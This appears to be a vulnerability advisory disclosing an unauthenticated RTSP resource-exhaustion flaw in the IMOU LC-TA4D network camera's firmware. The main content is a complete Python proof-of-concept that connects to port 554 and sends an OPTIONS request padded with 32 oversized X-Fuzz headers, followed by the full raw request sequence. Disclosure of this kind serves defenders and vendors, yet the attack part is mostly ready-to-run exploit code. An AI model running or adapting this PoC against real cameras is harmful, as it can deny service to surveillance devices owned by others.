




# IMOU LC-TA4D - Unauthenticated RTSP Resource Exhaustion via Header Flood

### Information

Vendor: Hangzhou Huacheng Network Technology Co., Ltd. (IMOU / Lechange / 乐橙)

Affected Product: IMOU LC-TA4D (LC-TA4D-H10MOS) network camera

Affected Firmware Version: 3.010.0000000.1.R.250704

Vendor Homepage: [https://www.imou.com/](https://www.imou.com/)

Vendor Contact Information: [security@imou.com](mailto:security@imou.com) (Imou Security Response Center: https://www.imou.com/en/isrc/37)



Affected Component: RTSP service (TCP/554)

### Description

An unauthenticated resource exhaustion vulnerability exists in the RTSP service of IMOU LC-TA4D firmware 3.010.0000000.1.R.250704. A crafted request containing a large number of extra headers receives no RTSP response, and the connection remains occupied. The behavior was reproduced with 32 extra X-Fuzz headers in an OPTIONS request and 64 extra X-Pad headers in a DESCRIBE request. Repeated or concurrent requests can accumulate and may exhaust RTSP connection resources, potentially causing a denial of service.

### Exploit Demo

The tested deployment uses Digest authentication, so the baseline OPTIONS returns 401. The PoC then sends an OPTIONS request with 32 extra `X-Fuzz-*` headers. The trigger request receives no RTSP response within the 30-second observation window.



The packet list shows the baseline 401, the trigger request with the extra headers, and the 30-second no-response window:



The TCP stream shows the complete trigger request with the 32 `X-Fuzz-*` headers:



The confirmed trigger surface covers two header-flood forms:

| Form | Extra headers | Request position |
|---|---:|---|
| `X-Fuzz` | 32 (`X-Fuzz-0` to `X-Fuzz-31`) | unauthenticated OPTIONS |
| `X-Pad` | 64 (`X-Pad-0` to `X-Pad-63`) | DESCRIBE after a valid Digest exchange |

Both forms produced a 30-second no-response. The PoC uses the 32-header `X-Fuzz` OPTIONS case as the representative trigger.

A 47-second screen recording of the full reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the baseline 401, the trigger request with the 32 `X-Fuzz-*` headers, and the 30-second no-response window.


### POC

The following standalone Python 3 PoC reproduces the representative trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. The trigger request is defined explicitly in the code.

```python
#!/usr/bin/env python3
"""IMOU LC-TA4D RTSP header flood PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
The RTSP service uses Digest authentication, so the baseline OPTIONS returns
401. The trigger is an OPTIONS request with 32 extra X-Fuzz headers.
The trigger request receives no RTSP response within 30 seconds.
Run this file directly from VS Code.
"""

import socket
import string
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

REQUEST_INTERVAL = 1.0
RESPONSE_WAIT = 30.0
USER_AGENT = "LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)"

BASE = "rtsp://%s:%d/cam/realmonitor?channel=1&subtype=0" % (TARGET_IP, TARGET_PORT)

# Request 1: normal OPTIONS. 401 is the expected Digest challenge.
BASELINE_OPTIONS = (
    "OPTIONS " + BASE + " RTSP/1.0\r\n"
    "CSeq: 2\r\n"
    "User-Agent: " + USER_AGENT + "\r\n\r\n"
)

# Request 2: the trigger. 32 extra X-Fuzz headers, 64 bytes each.
TRIGGER_HEADERS = "\r\n".join(
    "X-Fuzz-%d: %s" % (index, (string.ascii_uppercase + string.ascii_lowercase)[index] * 64)
    for index in range(32)
)
TRIGGER_REQUEST = (
    "OPTIONS " + BASE + " RTSP/1.0\r\n"
    "CSeq: 3\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    + TRIGGER_HEADERS + "\r\n\r\n"
)


def show_payload(payload):
    text = payload if isinstance(payload, str) else payload.decode("latin-1")
    print("  send:")
    for line in text.rstrip("\r\n").split("\r\n"):
        if line.startswith("X-Fuzz-"):
            name, value = line.split(": ", 1)
            line = name + ": " + value[:16] + "... [%d-byte value]" % len(value)
        elif len(line) > 120:
            line = line[:90] + "... [%d bytes total]" % len(line)
        print("    | " + line)


def read_status(stream):
    status = stream.readline()
    if not status:
        return None
    if not status.startswith(b"RTSP/1.0 "):
        return "unexpected status line"
    headers = []
    while True:
        line = stream.readline()
        if not line:
            return None
        if line in (b"\r\n", b"\n"):
            break
        headers.append(line.decode("latin-1").rstrip("\r\n"))
    for line in headers:
        if line.lower().startswith("content-length:"):
            length = int(line.split(":", 1)[1].strip())
            remaining = length
            while remaining:
                chunk = stream.read(remaining)
                if not chunk:
                    break
                remaining -= len(chunk)
            break
    return status.decode("latin-1").strip()


def send_and_read(sock, stream, label, payload, timeout):
    print("\n" + label)
    show_payload(payload)
    time.sleep(REQUEST_INTERVAL)
    try:
        sock.sendall(payload.encode("latin-1"))
        sock.settimeout(timeout)
        status = read_status(stream)
    except socket.timeout:
        print("  -> TIMEOUT: no RTSP response within %.1fs" % timeout)
        return None
    except (OSError, ValueError) as exc:
        print("  -> %s: %s" % (type(exc).__name__, exc))
        return None
    print("  <- " + (status or "connection closed"))
    return status


def main():
    print("=" * 72)
    print("IMOU LC-TA4D RTSP header flood PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("  trigger: OPTIONS with 32 extra X-Fuzz headers")
    print("=" * 72)

    sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=5)
    stream = sock.makefile("rb")
    try:
        status = send_and_read(
            sock, stream, "[1/2] Baseline OPTIONS", BASELINE_OPTIONS, 5.0)
        if not status:
            print("Baseline did not return a status line; aborting.")
            return
        print("  note: 401 is the normal Digest challenge.")

        print("\n" + "=" * 72)
        print(">>> TRIGGER: [2/2] OPTIONS with 32 X-Fuzz headers <<<")
        print(">>> The malformed request should receive no RTSP response. <<<")
        print("=" * 72)
        send_and_read(
            sock, stream, "[2/2] TRIGGER OPTIONS", TRIGGER_REQUEST, RESPONSE_WAIT)
        print("\nThe malformed request receives no response and the connection remains occupied.")
        print("Repeated or concurrent requests may exhaust RTSP connection resources.")
    finally:
        try:
            stream.close()
        except OSError:
            pass
        try:
            sock.close()
        except OSError:
            pass


if __name__ == "__main__":
    main()

```

### MSG

The complete representative request sequence follows. `192.168.1.100` is a placeholder for the target address. The second OPTIONS request, carrying the 32 `X-Fuzz-*` headers, is the trigger.

```text
OPTIONS rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)

OPTIONS rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
X-Fuzz-0: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
X-Fuzz-1: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
X-Fuzz-2: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
X-Fuzz-3: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
X-Fuzz-4: EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
X-Fuzz-5: FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
X-Fuzz-6: GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG
X-Fuzz-7: HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
X-Fuzz-8: IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII
X-Fuzz-9: JJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJ
X-Fuzz-10: KKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKK
X-Fuzz-11: LLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLL
X-Fuzz-12: MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
X-Fuzz-13: NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
X-Fuzz-14: OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
X-Fuzz-15: PPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP
X-Fuzz-16: QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
X-Fuzz-17: RRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRRR
X-Fuzz-18: SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS
X-Fuzz-19: TTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT
X-Fuzz-20: UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
X-Fuzz-21: VVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV
X-Fuzz-22: WWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWWW
X-Fuzz-23: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
X-Fuzz-24: YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
X-Fuzz-25: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
X-Fuzz-26: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
X-Fuzz-27: bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
X-Fuzz-28: cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc
X-Fuzz-29: dddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd
X-Fuzz-30: eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
X-Fuzz-31: ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff

```

### Credit

CRfuzzer
